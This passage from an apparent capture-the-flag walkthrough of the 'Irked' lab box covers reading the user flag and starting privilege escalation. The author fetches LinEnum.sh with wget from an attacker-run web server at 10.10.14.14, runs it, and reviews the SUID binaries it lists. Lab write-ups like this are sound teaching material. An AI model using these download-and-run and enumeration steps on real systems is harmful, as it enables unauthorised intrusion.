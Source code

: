 
Now I can get `user.txt`:

    
    
    djmardov@irked:~/Documents$ cat user.txt 
    4a66a78b...
    

## Privesc: djmardov –> root

### Enumeration

I’ll run [LinEnum.sh](https://github.com/rebootuser/LinEnum) to help survey
the box. I’ve already got it cloned to my box, so I’ll go into the directory
and run the python webserver, `python3 -m http.server 80`. Then I’ll get it on
Irked and run it.

    
    
    djmardov@irked:/dev/shm$ wget 10.10.14.14/LinEnum.sh
    --2019-04-04 09:01:24--  http://10.10.14.14/LinEnum.sh
    Connecting to 10.10.14.14:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 45650 (45K) [text/x-sh]
    Saving to: ‘LinEnum.sh’
    
    LinEnum.sh                                             100%[==============================================================================================================================>]  44.58K  --.-KB/s   in 0.04s  
    
    2019-04-04 09:01:25 (1.10 MB/s) - ‘LinEnum.sh’ saved [45650/45650]
    
    djmardov@irked:/dev/shm$ chmod +x LinEnum.sh
    djmardov@irked:/dev/shm$ ./LinEnum.sh -t
                                                           
    #########################################################
    # Local Linux Enumeration & Privilege Escalation Script #
    #########################################################
    # www.rebootuser.com
    # version 0.95
                                                  
    [-] Debug Info
    [+] Thorough tests = Enabled
    ...[snip]...
    

There’s a bunch of output to scroll through, but this part jumps out to me:

    
    
    [-] SUID files:
    -rwsr-xr-- 1 root messagebus 362672 Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 9468 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 13816 Sep  8  2016 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 562536 Nov 19  2017 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 13564 Oct 14  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
    -rwsr-xr-x 1 root root 1085300 Feb 10  2018 /usr/sbin/exim4
    -rwsr-xr-- 1 root dip 338948 Apr 14  2015 /usr/sbin/pppd
    -rwsr-xr-x 1 root root 43576 May 17  2017 /usr/bin/chsh
    -rwsr-sr-x 1 root mail 96192 Nov 18  2017 /usr/bin/procmail
    -rwsr-xr-x 1 root root 78072 May 17  2017 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 38740 May 17  2017 /usr/bin/newgrp
    -rwsr-sr-x 1 daemon daemon 50644 Sep 30  2014 /usr/bin/at
    -rwsr-xr-x 1 root root 18072 Sep  8  2016 /usr/bin/pkexec
    -rwsr-sr-x 1 root root 9468 Apr  1  2014 /usr/bin/X